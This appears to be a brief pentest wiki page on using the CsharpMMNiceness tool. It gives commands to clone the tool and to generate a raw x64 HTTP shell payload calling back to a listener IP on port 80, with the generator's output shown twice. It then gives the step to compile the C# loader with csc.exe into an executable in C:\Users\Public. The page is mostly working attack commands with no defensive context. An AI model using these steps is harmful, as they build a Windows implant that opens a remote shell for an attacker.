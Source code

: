 # CsharpMMNiceness

## CsharpMMNiceness usage

`git clone` [`https://github.com/fullmetalcache/CsharpMMNiceness`](https://github.com/fullmetalcache/CsharpMMNiceness)

* **Create a payload using python script :**

`root@nywsec:/opt/CsharpMMNiceness# python GenMMNiceness.py -a x64 -P http -l 35.180.32.68 -p 80 -s`

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                                                                                                                                     
[-] No arch selected, selecting arch: x64 from the payload                                                                                                                                                                                                                                                 
No encoder or badchars specified, outputting raw payload                                                                                                                                                                                                                                                   
Payload size: 207449 bytes                                                                                                                                                                                                                                                                                 
Final size of num file: 1272352 bytes                                                                                                                                                                                                                                                                      
Saved as: tmpshell.txt                    
```

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                                                                                                                                                     
[-] No arch selected, selecting arch: x64 from the payload                                                                                                                                                                                                                                                 
No encoder or badchars specified, outputting raw payload                                                                                                                                                                                                                                                   
Payload size: 207449 bytes                                                                                                                                                                                                                                                                                 
Final size of num file: 1272352 bytes                                                                                                                                                                                                                                                                      
Saved as: tmpshell.txt                    
```

* **copy the cs file on a windows system and compile it :**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 /out:C:\Users\Public\prog.exe C:\Users\Public\mmnicesness.cs`

### Resources

{% embed url="https://github.com/fullmetalcache/CsharpMMNiceness" %}

\`\`

\`\`

